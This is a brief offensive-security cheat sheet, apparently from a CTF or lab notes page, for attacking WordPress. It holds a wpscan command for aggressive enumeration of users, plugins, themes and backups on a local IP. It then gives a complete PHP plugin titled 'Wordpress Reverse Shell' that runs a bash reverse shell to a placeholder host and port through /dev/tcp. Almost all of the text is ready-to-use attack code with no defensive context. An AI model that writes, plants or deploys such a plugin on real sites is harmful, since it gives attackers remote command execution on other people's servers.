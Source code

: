 ## Scan for vulnerabilities and User

```bash
wpscan --url http://192.168.0.79 --enumerate u,ap,at,cb,dbe --plugins-detection aggressive
```

## Reverse Shell Plugin

```bash
<?php

/**
* Plugin Name: Wordpress  Reverse Shell
* Author: NAME
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/x.x.x.x/xxxx 0>&1'")
?>
```



